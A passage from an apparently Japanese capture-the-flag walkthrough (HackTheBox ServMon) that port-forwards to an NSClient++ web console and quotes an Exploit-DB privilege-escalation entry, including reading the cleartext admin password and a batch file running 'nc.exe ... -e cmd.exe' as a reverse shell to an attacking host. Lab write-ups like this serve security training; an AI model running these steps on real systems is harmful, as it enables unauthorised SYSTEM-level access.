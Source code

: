 ```
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```

```
https://127.0.0.1:8443/index.html#/
```

![j.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c10c7bb6-81c4-6faf-98d5-5352d5618a09.png)

このPasswordに先ほど入手したパスワードを入れるとログインできます。

次にGoogleでNSClietn++について知らべてみましょう。

![h.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/3b12d76e-a968-8009-54c5-ad87c87bb64f.png)

Exploit-DBに情報があったので、この手順の通りに進めてみたいと思います。
https://www.exploit-db.com/exploits/46802

![i.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c4b177b4-3291-5f60-f1a1-ba665ee0a838.png)


```
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.  

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.  

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
```
